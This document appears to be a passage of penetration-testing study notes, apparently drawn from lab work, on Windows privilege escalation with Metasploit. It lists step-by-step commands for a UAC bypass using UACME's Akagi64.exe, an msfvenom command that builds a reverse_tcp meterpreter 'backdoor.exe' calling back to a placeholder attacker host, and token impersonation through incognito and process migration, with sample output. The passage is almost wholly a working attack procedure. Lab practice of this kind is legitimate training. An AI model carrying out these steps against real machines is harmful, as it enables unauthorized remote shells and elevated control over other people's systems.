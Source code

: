 ```sh
search bypassuac
```

**(2) UACME**

```sh
# 1. Step
ps
migrate <PID explorer.exe>

# 2. Step - Upload Akagi (Akagi64.exe if x64)

# 3. Step - Create payload with msfvenom
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o backdoor.exe

# 4. Step - Start a listener (exploit/multi/handler)

# 5. Step - Run Akagi
Akagi64.exe 23 <payload_full_path> # NOTE FULL PATH

# Once run, we will get meterpreter session - getprivs/getsystem to get elevated privs
```

---

## Impersonate Tokens

**Metasploit - incognito**

```sh
load incognito
list_tokens -u
```

```sh
 Delegation Tokens Available
 ========================================
 ATTACKDEFENSE\Administrator
 NT AUTHORITY\LOCAL SERVICE
 
 Impersonation Tokens Available
 ========================================
 No tokens available
```

```sh
impersonate_token <token_name>
# E.g. impersonate_token ANYTHING\\Administrator 
# Note: the two backslashes
```

```sh
# You may need to migrate process to a <user> process
getpid
ps     
# PID: 2948 | PPID: 2036 NAME: explorer.exe | ARCH: X64 | SESSION:1 | USER: ANYTHING\Administrator | PATH: C:\Windows\explorer.exe

# Migrate process
migrate 2948
```

---
